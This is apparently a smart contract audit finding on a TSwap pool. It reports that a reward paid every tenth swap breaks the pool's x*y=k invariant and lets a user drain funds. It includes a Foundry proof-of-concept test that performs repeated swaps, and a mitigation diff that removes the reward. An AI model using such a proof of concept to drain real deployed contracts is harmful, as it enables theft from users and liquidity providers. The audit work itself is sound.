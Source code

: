 **Impact:** A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol. 

Most simply put, the protocol's core invariant is broken. 

**Proof of Concept:** 
1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens
2. That user continues to swap untill all the protocol funds are drained

**Proof of Code:**

Place the following into `TSwapPool.t.sol`.

```javascript

    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);
        assertEq(actualDeltaY, expectedDeltaY);
    }
```



**Recommended Mitigation:** Remove the extra incentive mechanism. If you want to keep this in, we should account for the change in the x * y = k protocol invariant. Or, we should set aside tokens in the same way we do with fees. 

```diff
-        swap_count++;
-        // Fee-on-transfer
-        if (swap_count >= SWAP_COUNT_MAX) {
-            swap_count = 0;
-            outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
-        }
```
